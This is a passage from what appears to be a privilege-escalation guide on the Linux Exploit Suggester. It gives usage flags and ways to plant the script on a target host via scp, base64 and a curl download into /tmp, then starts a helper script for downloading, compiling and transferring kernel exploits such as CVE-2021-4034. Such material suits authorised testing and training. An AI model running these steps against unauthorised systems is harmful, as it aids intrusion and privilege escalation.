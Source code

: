 ### Basic Usage

```bash
# Basic execution
./linux-exploit-suggester.sh

# Check for specific kernel version
./linux-exploit-suggester.sh -k 4.15.0

# Full output mode (more detailed information)
./linux-exploit-suggester.sh -f

# Include remote exploits
./linux-exploit-suggester.sh --remote
```

### Deployment to Target

Similar to LinPEAS, you have multiple options:

1. **Direct transfer**:
```bash
# If you have a way to transfer files
scp linux-exploit-suggester.sh user@target:/tmp/
```

2. **Base64 encoding**:
```bash
# On your attack machine
base64 -w0 linux-exploit-suggester.sh > les.b64

# On the target
echo "base64_string_here" | base64 -d > les.sh
chmod +x les.sh
```

3. **Direct download**:
```bash
# If the target has internet access
curl -L https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -o les.sh
chmod +x les.sh
```

### Exploit Compilation Helper Script

This script helps automate the process of downloading, compiling, and transferring kernel exploits:

```bash
#!/bin/bash
# kernel_exploit_helper.sh - Automate kernel exploit preparation

if [ -z "$1" ]; then
    echo "Usage: $0 <exploit_id> [target_ip] [target_user] [target_path]"
    echo "Example: $0 CVE-2021-4034 192.168.1.100 user /tmp"
    exit 1
fi

EXPLOIT_ID="$1"
TARGET_IP="${2:-}"
TARGET_USER="${3:-}"
TARGET_PATH="${4:-/tmp}"
WORK_DIR="exploit_${EXPLOIT_ID}_$(date +%Y%m%d_%H%M%S)"

# Create working directory
mkdir -p "$WORK_DIR"
cd "$WORK_DIR"
```